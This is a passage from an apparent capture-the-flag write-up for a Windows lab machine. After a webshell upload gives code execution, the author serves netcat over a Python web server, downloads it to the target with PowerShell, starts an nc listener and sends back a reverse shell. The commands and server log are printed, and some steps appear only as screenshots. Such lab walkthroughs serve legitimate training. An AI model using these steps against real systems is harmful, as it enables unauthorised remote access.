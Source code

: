 This time it worked and our webshell gets uploaded. Opening it up in the browser with the command `whoami` we see we have code execution and can start working on a reverse shell.

[![rce_poc.png](/img/breadcrumbs/rce_poc.png)](/img/breadcrumbs/rce_poc.png)

For this we serve a windows netcat executable on a python webserver, where we download it with powershell using `iwr` to a folder which almost always has write permissions.

```php
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

[![upload_nc.png](/img/breadcrumbs/upload_nc.png)](/img/breadcrumbs/upload_nc.png)

```php
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.175.242 - - [17/Jul/2021 10:19:13] "GET /nc.exe HTTP/1.1" 200 -
```

With netcat uploaded we can now send a reverse shell back to us. First we set up a listener.

```php
$ sudo rlwrap  nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```

Then we send us a powershell shell back with netcat to our listener.

[![get_shell.png](/img/breadcrumbs/get_shell.png)](/img/breadcrumbs/get_shell.png)
